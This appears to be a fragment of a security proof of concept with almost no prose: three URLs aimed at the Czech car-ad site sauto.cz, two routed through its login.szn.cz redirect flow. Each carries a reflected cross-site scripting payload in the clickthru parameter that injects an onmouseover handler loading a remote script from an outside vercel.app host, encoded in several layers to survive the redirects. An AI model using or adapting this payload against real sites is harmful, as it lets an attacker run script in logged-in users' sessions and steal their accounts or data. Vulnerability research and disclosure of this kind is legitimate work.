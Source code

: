 https://www.sauto.cz/bannerova-reklama?perPage=1&banner=1&clickthru=/%22onmouseover=%22let%20s%20=%20document.createElement(%27script%27);%20s.setAttribute(%27src%27,%27https://whitehat-email-cz.vercel.app//index.js%27);%20document.head.appendChild(s)


https://login.szn.cz/continue?service=sauto&return_url=https://login.sauto.cz/loginDone?service=sauto&return_url=https%3A%2F%2Fwww.sauto.cz%2Fbannerova-reklama%3FperPage%3D1%26banner%3D1%26clickthru%3D%2F%2522onmouseover%3D%2522let%2520s%2520%3D%2520document.createElement%28%2527script%2527%29%3B%2520s.setAttribute%28%2527src%2527%2C%2527https%3A%2F%2Fwhitehat-email-cz.vercel.app%2Findex.js%2527%29%3B%2520document.head.appendChild%28s%29

https://login.szn.cz/continue?service=sauto&return_url=https%3A%2F%2Flogin.sauto.cz%2FloginDone%3Fservice%3Dsauto%26return_url%3Dhttps%253A%252F%252Fwww.sauto.cz%252Fbannerova-reklama%253FperPage%253D1%2526banner%253D1%2526clickthru%253D%252F%252522onmouseover%253D%252522let%252520s%252520%253D%252520document.createElement%2528%252527script%252527%2529%253B%252520s.setAttribute%2528%252527src%252527%252C%252527https%253A%252F%252Fwhitehat-email-cz.vercel.app%252Findex.js%252527%2529%253B%252520document.head.appendChild%2528s%2529